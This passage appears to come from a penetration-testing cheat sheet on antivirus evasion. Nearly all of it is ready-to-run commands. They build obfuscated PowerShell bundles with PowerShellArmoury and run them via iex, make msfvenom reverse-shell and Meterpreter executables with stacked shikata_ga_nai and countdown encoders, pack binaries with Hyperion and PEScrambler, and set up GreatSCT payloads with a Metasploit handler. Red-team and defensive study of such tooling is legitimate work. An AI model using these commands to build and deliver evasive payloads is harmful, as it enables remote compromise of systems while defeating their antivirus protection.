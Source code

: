 * [https://github.com/cfalta/PowerShellArmoury](https://github.com/cfalta/PowerShellArmoury)
* [https://cyberstoph.org/posts/2019/12/evading-anti-virus-with-powershell-armoury/](https://cyberstoph.org/posts/2019/12/evading-anti-virus-with-powershell-armoury/)
* [https://cyberstoph.org/posts/2020/02/psarmoury-1.4-now-with-even-more-armour/](https://cyberstoph.org/posts/2020/02/psarmoury-1.4-now-with-even-more-armour/)

```
PS > git clone https://github.com/cfalta/PowerShellArmoury
PS > cd PowerShellArmoury
PS > curl https://github.com/snovvcrash/WeaponizeKali.sh/raw/main/conf/PSArmoury.json -o PSArmoury.json
PS > . .\New-PSArmoury.ps1
PS > New-PSArmoury -ValidateOnly -Config PSArmoury.json
PS > New-PSArmoury -Path armored.ps1 -Config PSArmoury.json
PS > cat -raw .\armored.ps1 | iex
```




## Tools



### msfvenom

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -f exe -o rev.exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -e x86/shikata_ga_nai -i 9 -f raw | msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 11 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 6 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -k -f exe -o met.exe
```



### Veil-Evasion

Hyperion + Pescramble

```
$ wine hyperion.exe input.exe output.exe
$ wine PEScrambler.exe -i input.exe -o output.exe
```



### GreatSCT

* [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

{% embed url="https://youtu.be/krC5j1Ab44I?t=3730" %}

Install and generate a payload:

```
$ git clone https://github.com/GreatSCT/GreatSCT ~/tools/GreatSCT
$ cd ~/tools/GreatSCT/setup
$ ./setup.sh
$ cd .. && ./GreatSCT.py
...generate a payload...
$ ls -la /usr/share/greatsct-output/handlers/payload.{rc,xml}

$ msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
```
